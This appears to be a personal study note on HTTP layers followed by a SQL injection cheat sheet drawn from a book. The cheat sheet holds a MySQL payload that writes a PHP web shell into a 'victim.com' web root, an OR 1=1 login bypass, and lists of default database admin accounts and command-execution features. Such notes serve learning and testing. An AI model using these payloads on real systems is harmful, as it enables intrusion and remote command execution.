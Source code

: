 # HTTP

HTTP 는 Application 계층에서 이루어진다


| 계층명               | 기능                                 |
|-------------------|------------------------------------|
| 응용계층(Application) | 웹, 텔넷, ftp                         |
| 전송계층(Transfer)    | 두 호스트 간의 데이터 흐름 제공                 |
| 네트워크(Network)     | 송수신간 전송 단위인 **패킷** 이동 제어 및 최적 이동경로 |
| 링크계층              | 하드웨어 인터페이스 역활과 데이터 전송              |
| ...               | ...                                |

HTTP 특징
- Request 와 Response로 이루어짐
- Client의 요청으로 시작
- Stateless Protocol -> (cookie, session 등을 사용)

## SQL Injection

### Procedure
- Time delay check where input is run
- Try `'` for input and see the result.
    - Does error occur?
    - Where does error occur? (DB or )

### WebShell (MYSQL)
- With root auth : `UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/victim.com/cmd.php" --` 

### Basic Config
- Microsoft SQL Server : `sa`
- MySQL : `root` && `anonymous`
- Oracle : `SYS, SYSTEM, DBSNMP, OUTLN`

### Authority Empowerment
- `xp_cmdshell, OPENROWSET, LOAD_FILE, ActiveX, Java support`

### Inline Injection
- use ` 1' OR 1=1 OR 1=1` to by pass `id = input1 AND password = input2`;
 

#### Referenced
- `SQL injection` by `Justin Clarke`